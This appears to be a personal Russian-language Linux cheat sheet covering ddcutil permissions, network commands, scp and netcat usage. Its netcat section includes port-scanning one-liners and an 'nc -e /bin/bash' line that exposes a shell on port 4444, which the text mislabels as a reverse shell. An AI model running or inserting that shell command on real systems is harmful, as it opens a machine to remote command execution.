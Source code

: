 Чтобы использовать ddcutil без root прав

```
# необходимо перелогиниться в учётку чтобы группа начала действовать
sudo usermod -aG i2c $USER
```

[DDC/CI monitor control on Linux](https://blog.tcharles.fr/ddc-ci-screen-control-on-linux/)

#### udev

[обработка hotplug](https://debian-handbook.info/browse/ru-RU/stable/sect.hotplug.html)

## Работа с сетью

	sudo ifconfig           # общая информаци о сетевых устройствах этого пк
	sudo netstat -tpln      # посмотреть какая программа слушает порт
    python -m CGIHTTPServer # быстро поднять http server
    sudo ip addr show       # показать все ip адреса на интерфейсе

	
[Настройка iptables для чайников](https://losst.ru/nastrojka-iptables-dlya-chajnikov)

#### SCP
Протокол над ssh для копирования файлов

    $ scp user@remote.host:file.txt /some/local/directory  # Копируем файл «file.txt» из удаленного сервера на локальный компьютер
    $ scp file.txt user@remote.host:/some/remote/directory # Копируем файл «file.txt» с локального компьютера на удаленный сервер.
    $ scp -r dir1 user@remote.host:/some/remote/directory/dir2 # Копируем папку «dir1» с локального хоста в директорию «dir2» на удаленном хосте.
        -P 2222 # меняем стандатный порт
        -p      # cохраняем время изменения и время доступа и права копируемого файла.
        -l 100  # ограничение скорости до 100 кб.с
    $ scp user@remote.host:~/\{file1,file2,file3\} . # Копируем несколько файлов с удаленного хост в текущую директорию на Вашем локальном хосте.

#### Netcat

[статья на Habrahabr](https://habrahabr.ru/company/pentestit/blog/336596/)

	nc -vn 192.168.1.100 12345       # Проверка наличия открытого TCP-порта 12345
	nc -vnz 192.168.1.100 20-24      # Сканирование TCP-портов с помощью\
	nc -vnzu 192.168.1.100 5550-5560 # Сканирование UDP-портов
	
	echo -n "foo" | nc -u -w1 192.168.1.100 161 # Отправка UDP-пакета
	nc -u localhost 7777                        # Прием сообщения на UDP-порту и вывод принятых данных
	while true; do nc -u localhost 7777; done   # Прием нескольких сообщений
	
	nc 192.168.1.100 5555 < 1.txt # Передача файла
	nc -lvp 5555 > /tmp/1.txt     # Прием прием файла
	while true; do nc -lp 8888 < index.html; done   # Netcact в роли простейшего веб-сервера
	while true; do sudo nc -lp 80 < test.html; done # Права админа для использования 80 порта
	
	nc -lp 9000           # Чат между узлами (сервер)
	nc 192.168.1.100 9000 # (клиент)
	nc -e /bin/bash -lp 4444   # Реверс шелл
	nc 192.168.1.100 4444      # клиент
	
